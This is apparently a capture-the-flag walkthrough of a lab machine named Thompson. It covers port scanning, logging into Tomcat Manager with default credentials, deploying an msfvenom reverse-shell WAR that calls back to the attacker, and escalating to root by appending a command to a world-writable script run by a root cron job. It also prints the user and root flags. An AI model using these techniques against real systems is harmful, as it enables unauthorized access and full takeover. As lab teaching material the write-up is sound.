




# Thompson Write-Up:

I started with an NMap scan:

```
sudo nmap -sS -sC -sV -vv -oN nmap-out 10.10.229.59
```

Got the following ports:

```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8009/tcp open  ajp13   syn-ack ttl 63 Apache Jserv (Protocol v1.3)
8080/tcp open  http    syn-ack ttl 63 Apache Tomcat 8.5.5
```

Ran a GoBuster scan. Got the following:

```
http://10.10.219.96:8080/docs (Status: 302)
http://10.10.219.96:8080/examples (Status: 302)
http://10.10.219.96:8080/manager (Status: 302)
http://10.10.219.96:8080/docs/index.html (Status: 200)
http://10.10.219.96:8080/docs/images (Status: 302)
http://10.10.219.96:8080/docs/comments.html (Status: 200)
http://10.10.219.96:8080/docs/developers.html (Status: 200)
http://10.10.219.96:8080/docs/introduction.html (Status: 200)
http://10.10.219.96:8080/docs/api (Status: 302)
http://10.10.219.96:8080/docs/changelog.html (Status: 200)
http://10.10.219.96:8080/docs/architecture (Status: 302)
http://10.10.219.96:8080/docs/config (Status: 302)
http://10.10.219.96:8080/docs/extras.html (Status: 200)
http://10.10.219.96:8080/docs/setup.html (Status: 200)
http://10.10.219.96:8080/docs/building.html (Status: 200)
http://10.10.219.96:8080/docs/monitoring.html (Status: 200)
http://10.10.219.96:8080/examples/index.html (Status: 200)
http://10.10.219.96:8080/examples/jsp (Status: 302)
http://10.10.219.96:8080/examples/servlets (Status: 302)
```

## Tomcat Exploration:

I checked out the main page (http://10.10.111.19:8080/) on my browser:



I clicked on the **Manager App** link and got a login prompt. I looked up the default credentials for Tomcat and tried them out. Username: tomcat, password: s3cret.

It worked!



I then used **msfvenom** to create a malicious **revshell.war** file to deploy onto the server. This file will allow me to create a reverse shell:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.221.49 LPORT=1234 -f war -o revshell.war
```

I then uploaded the **revshell.war** file onto the server:



I set up a Netcat listener on my local machine:

```
sudo nc -nvlp 1234
```

I then opened the uploaded file at **{MACHINE_IP}:8080/revshell/**

I now have a shell!

I found the file **/home/jack/user.txt**

```
tomcat $ cat /home/jack/user.txt

39400c90bc683a41a8935e4719f181bf
```

That is the User Flag!

## Privilege Escalation:

I looked in the **/home/jack** directory:



There is a file: **id.sh** that is writable by all users:

```shell
#!/bin/bash
id > test.txt
```

I can make arbitrary modifications to this script.

I looked in the **/etc/crontab** file, and it has an every-minute cron-job that runs the **id.sh** script as root!

```
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
```

Since I can make modifications to run arbitrary code on the **id.sh** script, and that script runs as root every minute, I can read resticted files by making modifications to the **id.sh** file!

I appended a command to the end of the **id.sh** file:

```
echo 'cat /root/root.txt > info.txt' >> id.sh
```

After a minute, a new **info.txt** file was created in the **/home/jack** directory. I opened it:

```
d89d5391984c0450a95497153ae7ca3a
```

That's our root flag! I hope you enjoyed!
